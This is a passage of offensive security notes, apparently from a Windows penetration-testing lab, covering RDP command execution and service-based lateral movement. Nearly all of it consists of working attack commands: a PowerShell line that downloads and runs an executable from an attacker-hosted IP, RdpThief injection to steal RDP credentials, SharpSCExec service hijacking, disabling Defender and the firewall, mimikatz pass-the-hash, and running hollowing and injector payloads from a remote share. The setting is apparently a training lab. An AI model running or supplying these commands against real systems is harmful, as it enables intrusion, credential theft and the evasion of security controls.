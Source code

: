         ex. sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.215/msf.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
    //Stealing Clear Text Credentials from RDP:
        //using RdpThief.dll and my RdpThiefInjector.exe - running loop that constantly checks for mstsc.exe process to inject into
            //RdpThief.dll must be on target (C:\Windows\Tasks\RdpThief.dll)
        //start RdpThiefInjector.exe on the machine you want to monitor connections from - whereever users are initiating connections out from
        //results:  type C:\Users\dave\AppData\Local\Temp\6\data.bin
        //Other method - svchost dump:  https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/credential-harvesting/from-memory/svchost-exe

#### Fileless Lateral Movement via RPC - SharpSCExec.exe / SCShell.py

    //requires access to SMB/445
    //better method - modifying an existing service instead of creating a new service or writing a file to disk (like psexec)
    //**good way to get RCE from CIFS access

    //*select a service that's not vital and not in use by default (ex. SensorService) - Potential candidates: SensorService, lfsvc, BTAGService, XblAuthManager
    //if using current token, don't need to provide domain/user/pass
    //*if it stops working, delete and re-add the ticket (and troubleshoot access - ex. ls \\file01\c$)

    ex. SharpSCExec.exe SRV01 SensorService "cmd.exe /c ping -n 2 10.10.13.37"
            //providing domain/creds at end is optional (if you already have ticket/access)
        \\192.168.45.215\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe appsrv01 SensorService "cmd.exe /c calc" corp1.com Admin lab
        SharpSCExec.exe 192.168.197.131 SensorService "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" . administrator Password
        *also possible via mimikatz and PTH - sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:cmd.exe - then run it
        **Disable Defender before shell:
            \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "cmd.exe /c c:\PROGRA~1\WINDOW~1\MpCmdRun.exe -RemoveDefinitions -All"
        **Best Shell Method - copy and execute Hollower/Injector:
            copy \\192.168.45.158\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\file01\c$\windows\tasks
            \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "C:\windows\tasks\Hollow.exe"
            **Or:  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe c:\Windows\Tasks\SharpSCExec.csproj
                //replace the arguments within the file
                //w/ payload:  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe c:\Windows\Tasks\HollowUAC.csproj
        *Or enable and run via SMB:
            \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "cmd.exe /c netsh advfirewall set currentprofile state off"
            \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f"
            \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "\\192.168.45.158\visualstudio\Injector\NtProcessInjector\bin\x64\Release\NtProcessInjector.exe explorer"
